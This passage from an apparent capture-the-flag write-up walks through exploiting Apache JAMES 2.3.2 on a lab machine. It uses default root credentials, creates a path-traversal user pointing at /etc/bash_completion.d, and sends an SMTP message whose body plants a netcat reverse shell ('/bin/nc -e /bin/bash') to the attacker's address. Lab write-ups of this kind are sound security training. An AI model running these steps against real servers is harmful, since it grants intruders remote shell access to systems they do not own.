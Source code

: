 #### Script Review

Opening the script, I see exactly the process as described above:

[![](/img/james-exploit.png)*Click for full
size ![image*](/img/james-exploit.png)

#### Manual Exploitation

Seeing what the script does, I'll try this manually with `nc` and
`telnet`. First, create a user:



    root@kali# nc 10.10.10.51 4555
    JAMES Remote Administration Tool 2.3.2
    Please enter your login and password
    Login id:
    root
    Password:
    root
    Welcome root. HELP for a list of commands
    adduser ../../../../../../../../etc/bash_completion.d 0xdf0xdf
    User ../../../../../../../../etc/bash_completion.d added
    quit
    Bye



Now, I'll send that user an email with a reverse shell, connecting to
SMTP on 25:



    root@kali# telnet 10.10.10.51 25
    Trying 10.10.10.51...  
    Connected to 10.10.10.51.     
    Escape character is '^]'.              
    220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Wed, 29 Apr 2020 22:28:40 -0400 (EDT)
    EHLO 0xdf
    250-solidstate Hello 0xdf (10.10.14.47 [10.10.14.47])
    250-PIPELINING                            
    250 ENHANCEDSTATUSCODES
    MAIL FROM: <'0xdf@10.10.14.47>
    250 2.1.0 Sender <'0xdf@10.10.14.47> OK 
    RCPT TO: <../../../../../../../../etc/bash_completion.d>
    250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
    DATA
    354 Ok Send data ending with <CRLF>.<CRLF>               
    FROM: 0xdf@10.10.14.47            
    '
    /bin/nc -e /bin/bash 10.10.14.47 443
    .
    250 2.6.0 Message received                          
    quit                                                      
    221 2.0.0 solidstate Service closing transmission channel
    Connection closed by foreign host.     
